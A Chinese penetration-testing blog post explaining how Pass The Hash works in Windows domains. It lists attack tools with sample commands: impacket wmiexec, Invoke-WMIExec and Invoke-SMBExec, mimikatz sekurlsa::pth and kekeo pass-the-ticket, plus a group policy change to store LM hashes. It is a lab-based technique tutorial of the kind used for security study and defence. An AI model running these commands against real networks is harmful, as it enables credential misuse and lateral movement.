 ```yaml
---
layout: post
title: 域渗透——Pass The Hash的实现
---
```



## 0x00 前言
---

在之前的文章《域渗透——Pass The Hash & Pass The Key》曾介绍过kb2871997对Pass The Hash的影响。本文将站在另一个角度，介绍Pass The Hash的相关实现

## 0x01 简介
---

本文将要介绍以下内容：

- Pass The Hash的原理
- 常用工具
- mimikatz中的Pass The Hash
- mimikatz中的Pass The Ticket

## 0x02 Pass The Hash的原理
---

可参考Wikipedia的介绍，地址如下：

https://en.wikipedia.org/wiki/Pass_the_hash

提取出关键信息：

- 在Windows系统中，通常会使用NTLM身份认证
- NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值由系统API生成(例如LsaLogonUser)
- hash分为LM hash和NT hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista和Windows Server 2008开始，微软默认禁用LM hash
- 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户(即跳过调用API生成hash的过程)

**注：**

mimikatz支持导出内存中用户的LM hash，但前提是Windows系统支持LM hash

Windows Server 2008启用LM hash的方法：

`gpedit.msc`-`计算机配置`-`Windows 设置`-`安全设置`-`本地策略`-`安全选项`

找到`网络安全︰ 不要在下次更改密码存储 LAN 管理器的哈希值`，选择`已禁用`

系统下一次更改密码后，就能够导出LM hash


## 0x03 常用工具
---

当我们获得某个用户的口令hash，并且条件限定我们不去破解明文口令，实现Pass The Hash都有哪些工具呢？

### 1、Kali下的工具

#### (1) meterpreter

```
use exploit/windows/smb/psexec_psh
```

#### (2) 工具集

位于`密码攻击`-`Passing the Hash`下，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-12-8/1215.png)

包含多种利用工具

### 2、Windows系统下的工具

#### (1) python

**wmiexec：**

参考地址：

https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

exe版本下载地址：

https://github.com/maaaaz/impacket-examples-windows

**注：**

wmiexec.py的注释中提示"Main advantage here is it runs under the user (has to be Admin) account"，经实际测试普通用户权限即可 

参数实例：

```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 TEST/test1@192.168.1.1 "whoami"
```

wmiexec.py的hash参数格式为`LMHASH:NTHASH`，由于该Hash来自于Server 2008，系统默认不支持LM hash，所以LM hash可以设定为任意值

#### (2) powershell

参考地址：

https://github.com/Kevin-Robertson/Invoke-TheHash/

支持多种方式

**Invoke-WMIExec：**

参数实例：

```
Invoke-WMIExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```

类似wmiexec.py

**Invoke-SMBExec：**

支持SMB1, SMB2 (2.1), and SMB signing

参数实例：

```
Invoke-SMBExec -Target 192.168.0.2 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```

通过在目标主机创建服务执行命令，所以权限为system

**Invoke-SMBClient：**

支持SMB1, SMB2 (2.1), and SMB signing

如果只有SMB文件共享的权限，没有远程执行权限，可以使用该脚本

支持的功能包括列举目录、上传文件、下载文件、删除文件(具体权限取决于该口令hash的权限)


#### (3) mimikatz 

**Pass-The-Hash：**

实际上为Overpass-the-hash

参数实例：

```
privilege::debug
sekurlsa::pth /user:test1 /domain:test.local /ntlm:c5a237b7e9d8e708d8436b6148a25fa1
```

**注：**

mimikatz的pth功能需要本地管理员权限，这是由它的实现机制决定的，需要先获得高权限进程lsass.exe的信息

对于8.1/2012r2，安装补丁kb2871997的Win 7/2008r2/8/2012，可以使用AES keys代替NT hash

**Pass-The-Ticket：**

考虑到mimikatz的pth功能需要本地管理员权限，所以mimikatz也提供了不需要管理员权限的解决方法Pass-The-Ticket

Pass-The-Ticket需要用到gentilkiwi开源的另一款工具kekeo，下载地址：

https://github.com/gentilkiwi/kekeo

参数实例：

```
kekeo "tgt::ask /user:test1 /domain:test.local /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1"
```

执行后生成票据`TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi`

接下来导入票据：

```
kekeo "kerberos::ptt TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
```


## 0x04 小结
---

本文列举了多种实现Pass The Hash的工具，欢迎补充



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



